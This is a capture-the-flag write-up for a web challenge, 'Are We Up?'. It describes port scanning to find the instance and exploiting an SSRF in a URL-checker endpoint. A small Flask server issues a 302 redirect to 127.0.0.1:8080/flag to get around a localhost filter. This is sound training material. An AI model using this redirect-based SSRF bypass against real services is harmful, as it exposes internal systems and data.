 ```yaml
---
title: "Are We Up?"
parent: "Web Exploitation"
---
```


# Are We Up?

Strange One, This challenge was not provided any description nor any instance to connect. So first we were confused a lot.

As we know instances weare spawned on port range 8000-9000, I ran nmap scan on that port range. Wrote a script which will try to fetch the title of the page on ports given by nmap, to eliminate other challenge instances. and we got title "Server Status" on port `8501`.

After the hint from organizers, we found out there is open port on vishwaCTF server. hosting the same server but at the footer it was mentioned that the instance is running on port `8501`.

From here actual challenge started, We got simple templeted page (taken from codepen) of server status. But we foundout another endpoint in the footer. `/uptimer-a343s19` & `/checker` which taking input url and loading its content.

![Uptimer](./uptimer.png)

Yehh its SSRF, We tried the combinations of localhost but they were banned. So we can't access localhost directly, then what we can do? Use the redirecion if supported. We quickly hooked python server which will give 302 redirection to localhost. proxied through ngrok. When we requested our ngrok url, we got the flag.

One key detail the templeted page was suggesting the server is running on `http://localhost:8080` and flag is at location `/flag`, so we have to access `http://localhost:8080/flag` to get the flag. That's what we did.

```python
from flask import Flask, Response
from flask_cors import CORS

app = Flask(__name__)

CORS (app)

@app.route('/')
def home():
    response = Response (status=302)
    response.headers['Location'] = 'http://127.0.0.1:8080/flag'
    return response

if __name__ == "__main__":
    app.run(debug=True)
```

![Flag](./solve.png)